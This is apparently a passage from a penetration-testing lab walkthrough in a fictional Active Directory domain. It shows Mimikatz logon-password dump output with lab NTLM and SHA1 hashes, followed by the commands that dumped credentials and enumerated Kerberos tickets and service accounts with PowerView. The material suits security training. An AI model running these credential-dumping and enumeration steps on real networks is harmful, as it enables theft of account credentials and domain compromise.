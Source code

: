 ```powershell-session
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1284140 (00000000:0013982c)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70647 (00000000:000113f7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname